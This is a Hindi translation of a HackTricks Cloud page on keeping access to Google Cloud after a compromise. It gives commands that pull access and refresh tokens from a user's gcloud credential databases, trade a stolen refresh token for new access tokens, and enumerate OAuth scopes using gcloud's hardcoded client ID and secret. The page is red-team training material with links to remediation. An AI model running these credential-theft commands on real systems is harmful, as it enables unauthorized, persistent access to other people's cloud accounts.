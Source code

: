 # GCP - गैर-सेवा स्थिरता

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

ये उपयोगी तकनीकें हैं, जब आपने किसी GCP क्रेडेंशियल या GCP वातावरण में चल रही किसी मशीन को किसी प्रकार से कंप्रोमाइज कर लिया है।

## टोकन हाइजैकिंग

### प्रमाणीकृत उपयोगकर्ता टोकन

एक उपयोगकर्ता के **वर्तमान टोकन** प्राप्त करने के लिए आप निम्नलिखित को चला सकते हैं: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

इस पेज में देखें कि **gcloud का उपयोग करके इस टोकन का सीधा उपयोग कैसे करें**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**नए एक्सेस टोकन उत्पन्न करने** के लिए विवरण प्राप्त करने के लिए निम्नलिखित को चलाएं:
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

यह भी संभव है कि **`$HOME/.config/gcloud/application_default_credentials.json`** और **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** में रिफ्रेश टोकन्स मिलें।

नए रिफ्रेश एक्सेस टोकन प्राप्त करने के लिए **रिफ्रेश टोकन**, क्लाइंट आईडी, और क्लाइंट सीक्रेट के साथ निम्नलिखित को चलाएं:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

रिफ्रेश टोकन की वैधता को **व्यवस्थापक** > **सुरक्षा** > **Google Cloud सत्र नियंत्रण** में प्रबंधित किया जा सकता है, और डिफ़ॉल्ट रूप से यह 16 घंटे के लिए सेट किया गया है हालांकि यह कभी भी समाप्त नहीं होने के लिए सेट किया जा सकता है:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### प्रमाणीकरण फ्लो

कुछ इस प्रकार का उपयोग करके प्रमाणीकरण फ्लो जब `gcloud auth login` का उपयोग किया जाता है तो ब्राउज़र में एक प्रॉम्प्ट खोलेगा और सभी स्कोप्स को स्वीकार करने के बाद ब्राउज़र एक अनुरोध भेजेगा जैसे कि यह उपकरण द्वारा खुले http पोर्ट को:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
तो, gcloud स्थिति और कोड का उपयोग करेगा जिसमें कुछ hardcoded `client_id` (`32555940559.apps.googleusercontent.com`) और **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) होगा ताकि **अंतिम रिफ्रेश टोकन डेटा** प्राप्त कर सके।

{% hint style="danger" %}
ध्यान दें कि localhost के साथ संचार HTTP में है, इसलिए डेटा को अंतिम रिफ्रेश टोकन प्राप्त करने के लिए डाटा को अंतर्दृष्टि करना संभव है, हालांकि यह डेटा केवल 1 बार मान्य है, इसलिए यह बेकार होगा, रिफ्रेश टोकन को फ़ाइल से पढ़ना आसान है।
{% endhint %}

### OAuth स्कोप

आप सभी Google स्कोप को [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) में ढूंढ सकते हैं या इन्हें निष्पादित करके प्राप्त कर सकते हैं: 

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

इस स्क्रिप्ट के साथ देखना संभव है कि **`gcloud`** जो एप्लिकेशन उपयोग करता है वह कौन-कौन स्कोप समर्थित कर सकता है:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
इसे निष्पादित करने के बाद यह जांचा गया कि यह ऐप इन scopes का समर्थन करता है:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
### सेवा खाते

जैसे कि प्रमाणित उपयोगकर्ताओं के साथ, यदि आप किसी सेवा खाते की **निजी कुंजी फ़ाइल को कंप्रमाइज़** कर लेते हैं तो आप उसे **आम तौर पर जितनी चाहें तक एक्सेस** कर सकेंगे।\
हालांकि, यदि आप किसी सेवा खाते के **OAuth टोकन** को चुरा लेते हैं तो यह और भी दिलचस्प हो सकता है, क्योंकि, यदि डिफ़ॉल्ट रूप से ये टोकन केवल एक घंटे के लिए उपयोगी होते हैं, तो भी, **यदि पीड़ित व्यक्ति निजी एपीआई कुंजी को हटा देता है, तो OAuth टोकन अब तक मान्य रहेगा जब तक यह समाप्त नहीं हो जाता**।

### मेटाडेटा

स्पष्ट है, जब तक आप GCP माहौल में चल रही किसी मशीन के अंदर हैं तब आप **मेटाडेटा एंडपॉइंट से संपर्क करके उस मशीन से जुड़ी सेवा खाते तक पहुंच सकेंगे** (ध्यान दें कि इस एंडपॉइंट में आप एक्सेस कर सकते हैं ओआथ टोकन जो सामान्यत: स्कोप्स द्वारा प्रतिबंधित होते हैं)।

### सुधार

इन तकनीकों के लिए कुछ सुधार की व्याख्या [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) में की गई है।

## संदर्भ

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)
